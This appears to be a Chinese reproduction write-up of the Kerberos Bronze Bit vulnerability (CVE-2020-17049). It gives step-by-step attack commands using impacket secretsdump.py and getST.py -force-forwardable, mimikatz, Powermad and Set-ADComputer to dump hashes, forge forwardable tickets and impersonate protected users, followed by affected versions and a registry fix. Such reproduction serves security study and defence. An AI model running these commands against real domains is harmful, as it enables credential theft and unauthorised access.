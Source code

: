 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/By1Vjm-t4CxjUaTEV_ykVg)

**写在前面，文章为复现文章，不涉及原理，有兴趣者可自行研究。**  

首先简单说明一下这个漏洞的作用，直接扳原文：

```
An attacker can impersonate users which are not allowed to be delegated. This includes members of the Protected Users group and any other users explicitly configured as “sensitive and cannot be delegated.”
An attacker can launch the attack from a service which is not allowed to perform the authentication protocol transition. This means that if the service is configured without the “TrustedToAuthForDelegation” property (shown as “Trust this user for delegation to specified services only – Use Kerberos only” in the AD GUI), the attacker can use the exploit to obtain tickets as if the “TrustedToAuthForDelegation” property were set (shown as “Trust this user for delegation to specified services only – Use any authentication protocol” in the AD GUI).
```

大体意思就是这个漏洞可以让攻击者去攻击 “受保护组“、或设置了“敏感用户，禁止委派” 的用户。或者去攻击设置了 “仅信任该计算机来委派指定的服务 --> 仅使用 kerberos”的机器。

大体的攻击思路如下：

1、攻击者已经获取了域内的某台机器的权限。

2、拥有域内服务的 hash，称为 service1。hash 可以通过 DC Sync attacks, Kerberoasting，甚至是用 Powermad 来注册 spn 的方式来获得。

3、service1 对域内的其他服务拥有约束委派关系。其配置可能如下（1）service2 在 service1 的 AllowedToDelegateTo 列表当中。（2）service1 在 service2 的 PrincipalsAllowedToDelegateToAccount 列表当中，且攻击者对 service2 有 GenericAll, GenericWrite, WriteOwner, etc 权限。

4、攻击者利用该漏洞去获取到 service2 的 kerberos 票据

5、攻击者利用票据去攻击 service2

漏洞原理：

在之前的利用方法中，假如我们已经拥有了一个 service1 的 hash，想要去获取 service2 的权限时，便可以使用 getST.py 程序执行 S4U 交换，来获取目标的 TGT，如果其配置了 "TrustedToAuthForDelegation"，且用户未受保护的话，其流程如下：

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08WYqiacm1PKxEiateOicJKZRnCLBzOO0VXcRsnItu0HdmwL1icOzibs8O9mAZhJkVNQD6uamIKKV7bOqvQ/640?wx_fmt=png)

但如果其设置了仅 kerberos 或者受保护的组的话，则不会成功。

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08WYqiacm1PKxEiateOicJKZRnCYRRkUzdQl8ibsE4Fn3lPibkWtOV64A2QBU1yUFWG3YhtSW7nVgDRnnug/640?wx_fmt=png)

而漏洞作者为工具增加了 - force-forwardable 参数，使其成为了可能。

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08WYqiacm1PKxEiateOicJKZRnC8WoTbZRrtZQ7EnjaRlhARb0QbeLBLUQibGuibGf72I0mibiaAoHAGVcwng/640?wx_fmt=png)

这个 gif 很直观的显示了该过程：https://blog.netspi.com/wp-content/uploads/2020/10/bit_flip_animation_cropped.gif  

**漏洞复现**  

网络拓扑环境如下：

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08WYqiacm1PKxEiateOicJKZRnC0zfoUa7gDN6xwY6TR5fGeWAnUFS0mx9Cgia8FAWPN5bqPwCe1CpFEHQ/640?wx_fmt=png)

Example Attack1：

环境配置如下：

server1 设置如下：

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08WYqiacm1PKxEiateOicJKZRnCjnkbHnq5Ndr0friaHgzYt1OBb3KRpLhyM3X5NqeDauEZXiaVybzPEwHg/640?wx_fmt=png)

user2 设置：

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08WYqiacm1PKxEiateOicJKZRnCKKM34q1U5EC1p9quwznawWhpOxS4epWocQQp353xDSY9XOXgRVCB7g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08WYqiacm1PKxEiateOicJKZRnCxq6OSdsHicBhU2ShvuT50Ne5ZkkvZ6Aq3DJhPiaibWJhxuFI09Tf0OQsw/640?wx_fmt=png)

开始攻击：

首先访问 server2, 确认无法直接连接到 server。

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08WYqiacm1PKxEiateOicJKZRnCialwsALZ5D9F6KDicnmmhZGWhBSegSYIbperawAJjXW0G7v1ibZkbIX2w/640?wx_fmt=png)

然后我们需要获取 server1 的机器账户的 AES256-CTS-HMAC-SHA1-96 和 LM:NTLM hash ，在作者的复现过程中使用的是 secretsdump.py 来操作的，也就是下面这样：

```
python .\impacket\examples\secretsdump.py 'test/user1:<user1_password>@Service1.test.local'
```

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08WYqiacm1PKxEiateOicJKZRnCMclsnrDthSGHwk5OgyA1T8PTUiaJmufbMq2ATaPyHRrI8uXppYLelCA/640?wx_fmt=png)

但笔者在测试过程中，发现并不可以这样操作。也有可能是我操作有问题.. 于是我换成了 mimikatz 的 ekeys 来操作：

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08WYqiacm1PKxEiateOicJKZRnCBxEnMV288ejfdPO7BfHpKVLXO6RKlOTicUKd4aZwMvBVqyuBfnzL9vg/640?wx_fmt=png)

或者为了复现方便，提升到高权限操作：

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08WYqiacm1PKxEiateOicJKZRnCph3A3rCkUHTaaXk6f9VOmU3ib7VYnvN06bUSfiaevh54VZrrsL6Fvcjg/640?wx_fmt=png)

```
.\impacket\examples\getST.py -spn cifs/Service2.test.local -impersonate User2 -hashes <LM:NTLM hash> -aesKey <AES hash> test.local/Service1
```

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08WYqiacm1PKxEiateOicJKZRnCWlWZJXeE9NXrTwXUFRibOUkLksAUXibSDuZ2tHNWSWKu4uFuldCwk2Qg/640?wx_fmt=png)

发现，并不能获取 user2 的 TGT，而加上参数之后，则可以成功获取

```
.\impacket\examples\getST.py -spn cifs/Service2.test.local -impersonate User2 -hashes <LM:NTLM hash> -aesKey <AES hash> test.local/Service1 -force-forwardable
```

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08WYqiacm1PKxEiateOicJKZRnCEnzM9UJ2YV5A05SEXyCuBdR4lA5n6IuM54XM5TkM4F1aeBI2HmvRbA/640?wx_fmt=png)

然后我们注入该票据：

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08WYqiacm1PKxEiateOicJKZRnChlQPZqPqJjiboCqxS25FxqIibyIzic74aOydn4QC4PehgXic31lsD7DW8A/640?wx_fmt=png)

不过我们这里的是 host 的票据，我们一般需要的是 cifs，按照刚才的步骤再走一遍就 ok 了。

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08WYqiacm1PKxEiateOicJKZRnChFG3enKXwbVXicEpibouptOIgMFeO9cV5yg59GMiaLLmYWK170g4MwVww/640?wx_fmt=png)

此时便拥有了对目标的访问权限。

Example Attack2：

环境配置如下：

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08WYqiacm1PKxEiateOicJKZRnC38ic48jB9XbjjXVK6k0MeJ4Q4xaJrUYNhSrVIyR5USbMP4qcAYre1og/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08WYqiacm1PKxEiateOicJKZRnCgg7SCXdNAsbCnY1x0MtYsHmOaKw5quYlncC45rYNrEhEVR7kjzhqJA/640?wx_fmt=png)

开始攻击：

```
Import-Module .\Powermad\powermad.ps1
New-MachineAccount -MachineAccount AttackerService -Password $(ConvertTo-SecureString 'AttackerServicePassword' -AsPlainText -Force)
```

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08WYqiacm1PKxEiateOicJKZRnCgngcUhaezJf1VFODjbKgcoleLB443QUm5ib8EcSY0v5637S6yqMTPAw/640?wx_fmt=png)

然后：

```
"kerberos::hash /password:AttackerServicePassword /user:AttackerService /domain:test.local" exit
```

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08WYqiacm1PKxEiateOicJKZRnCOYxKOC0YesibTib1zlQiboqGe9Z7XS0DAugPfkziaHm37QHHEOvuyONkyA/640?wx_fmt=png)

然后

```
Install-WindowsFeature RSAT-AD-PowerShell
Import-Module ActiveDirectory
Get-ADComputer AttackerService
```

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08WYqiacm1PKxEiateOicJKZRnC3RoqNcL03xIQibXt3BWAC2WInlZG6WEibhvzsybskm3gA8UkwmA4FRUg/640?wx_fmt=png)

然后：

```
Set-ADComputer Service2 -PrincipalsAllowedToDelegateToAccount AttackerService$
Get-ADComputer Service2 -Properties PrincipalsAllowedToDelegateToAccount
```

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08WYqiacm1PKxEiateOicJKZRnCBNTwPBVKXglGmQE0JjibcJp22FAstL5SGkb835w7DS1HbCRffubKOZg/640?wx_fmt=png)

然后获取 TGT

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08WYqiacm1PKxEiateOicJKZRnCx82Mto9ibAo1StQBAK2sqwTRowZibVQic8ylD6oPNkgt7cQjbH96fAVXw/640?wx_fmt=png)

然后注入票据即可.

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08WYqiacm1PKxEiateOicJKZRnCSwibRNibicmMudQfvHc59ibozaT4ZUoWE7Pol90NJrVogLIpoyo5IMWcIw/640?wx_fmt=png)

**写在后面**  

由于时间问题，并未对原理进行研究，只是简单进行了复现，有兴趣者可自行抓包分析。

漏洞影响版本

*   Windows Server 2012
    
*   Windows Server 2012 R2
    
*   Windows Server 2016
    
*   Windows Server 2019
    
*   Windows Server, version 1903
    
*   Windows Server, version 1909
    
*   Windows Server, version 2004
    
*   Windows Server, version 20H2
    

修复方案：  

将 HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\Kdc 的 PerformTicketSignature 设置为 1

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08WYqiacm1PKxEiateOicJKZRnC6N1A75mGeYZE8QyibHhuibvWicEX6Y3JqLH5ynFJFwGpib7lk9x6yDekibw/640?wx_fmt=png)

参考文章：

https://www.zdnet.com/article/windows-10-update-problem-were-fixing-kerberos-authentication-bug-says-microsoft/

https://blog.netspi.com/cve-2020-17049-kerberos-bronze-bit-attack/

https://blog.netspi.com/cve-2020-17049-kerberos-bronze-bit-overview/

https://github.com/SecureAuthCorp/impacket/pull/1013

https://dirteam.com/sander/2020/11/11/kerberos-security-feature-bypass-vulnerability-important-cve-2020-17049-cvssv3-6-6/